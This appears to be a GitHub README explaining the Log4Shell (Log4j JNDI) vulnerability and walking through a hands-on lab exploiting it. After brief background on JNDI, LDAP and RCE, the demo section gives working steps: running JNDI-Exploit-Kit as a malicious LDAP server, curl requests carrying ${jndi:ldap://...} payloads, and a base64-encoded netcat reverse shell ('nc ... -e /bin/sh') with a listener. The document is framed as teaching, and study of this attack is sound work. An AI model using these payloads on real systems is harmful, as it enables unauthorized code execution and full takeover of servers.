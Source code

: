 # Log4shell

## Introduction

- Accessing the host server through log4j vulnerability and exploiting it with malicious code on the host server.

- Since this exploit is done through the log4j it was named commonly as Log4shell.

- Log4shell is similar to the *SQL injection* in which attacker enters sql string into the request parameters and making it execute  on the host server whereas in *log4shell* hacker enters his directory service url like ldap server making the host application connect to the attacker server using jndi lookup and gets the malicious code execute on the host server which is returned to host application in the form of stream object.
$~$

  ![Alt Text](log4shell.gif)

## Log4j Vulnerability

- Log4j is the widely used logging library for all java enterprise applications either referenced directly or indirectly in the applications.

- In 2013, Log4j has introduced a new feature which evaluates Expression language which is in format ${code/variable}.

- For example if we want to print the environment variable then syntax of the logger will be,
   ```log.info("java version is {}", ${java.version});```

- The above expression ${java.version} looks the system level environemnt variables which are set at server level and access the variable and put the value in the logger file.

- This is where the exploit is happening and attackers access the host server access without authorization.
  
## JNDI

- JNDI is *Java Naming & Directory Interface*.

- JNDI provides consistent use of naming and/or directory services as a Java API.

- Most commonly used directory protocols are,
  - LDAP
  - RMI
  - DNS
  - NIS

- Like all Java APIs that interface with host systems, JNDI is independent of the underlying implementation.
$~$

  ![Alt Text](What-is-JNDI-in-Java.png)

## LDAP 

- LDAP (Light Weight Directory Access Protocol) is a software protocol for enabling anyone to locate data about organizations, individuals and other resources such as files and devices in a network -- whether on the public Internet or on a corporate Intranet.



  ![Alt Text](how-ldap-works.png)

- This is mostly used while authenticating a users when logging in to a applications since it is not a heavyweight protocol like http and takes less time and also reduces the costly DB hits.

- Also, it is very easy to manage users and their roles since constraints can be added at organization or group level which is easy to maintain and manage users when a new rule is introduced or old rule is depricated/removed.


## RCE

- RCE is Remote Code Execution which clearly explains of executing a malicious code on the remote server (host server) without even having access to the server.

  ![Alt Text](RCE.png)

- Attacker enters malicious code in the form of a request parameter fed to the website and then making the application run the code on the host server and perform whatever attacker wants to do on the host server without having authorized access.

## Demo:

#### Prerequisites:

- [x] *Download LDAP server*:
  ```wget https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar```
  ![Alt Text](download_ldap.png)
- [x] *Run LDAP server*:
  - Move to the jar location and run the server using below command.
    `java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C "calc.exe" -L <your private ip>:1389`
  <br/>

  ![Alt Text](run_ldap.png)
  > *_NOTE:_*  Use **hostname -I | awk '{print $1}'** to ge the private IP.
 - [x] *Create a spring boot application using log4j2 dependence with version less than 2.15* 
   - Open any Java IDE (Eclipse or SpringToolSuite) 
<br/>
   
    ![create Spring boot app](http://g.recordit.co/UJqn2R3YVo.gif)
<br/>
    -  Replace pom.xml with below file & copy below LogController src/main/java a
      [pom](pom.xml)
      [LogController](LogController.java)
     - Add below lines in default file created under src/main/java --> *Application.java in main method. 
      `System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
		System.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "true");`
    - Install [kali-linux](https://www.kali.org/docs/introduction/download-official-kali-linux-images/) and execute below command to install docker for executing app in docker container.
    `sudo apt install docker.io`
---  
- I will cover 3 scenarios where the malicious code will execute different outputs on the host system/server.
  1. Open ==calculator== on windows system by executing vulnerable java application on local system.
       - Run the spring boot application as below.
    ![run app](http://g.recordit.co/AW98phqr4i.gif) 
       - Use curl to send request to host server with malicious code.
    `curl <your IP>:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/Y2FsYy5leGU=}'` 
    <br/>
    ![check calc](http://g.recordit.co/I5a0PeQpkf.gif) 
  2. Creating a ==txt file== inside server after hosting application on docker container.
    - Host the same application in docker using below commands.
    `docker pull vamsi13krish/vulnerable-app:latest`
    `docker run -d --name vulnerable-app -p 8080:8080 vamsi13krish/vulnerable-app`
    ` curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_unix/dG91Y2ggL3RtcC9wd25lZC50eHQK}'`
   - Check the docker container for pwned.txt file in /tmp folder using below command
    `docker exec -it <container ID> ls /tmp`
  >*_NOTE_*: Use **docker ps** to get container ID 

  ![file creation gif](http://g.recordit.co/Bn8ImBR7wn.gif)
  3. Getting complete access to the host server using ==netcat== command that will be passed in malicious code on to host server using log4j vulnerability.
  - Use below command to convert the required netcat command to base64 encoded string.
    `echo "nc 172.26.9.117 9999 -e /bin/sh" | base64`
  - Copy the base64 string and paste after exec_global/ in below command
    `${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}`
  - Now open other terminal and run below command to listen to the port 9999.
    `nc -nvlp 9999`
  - Run below Curl command and check the listening terminal again
    `curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}'`  
  ![Boom](http://g.recordit.co/xrvaibjQcF.gif)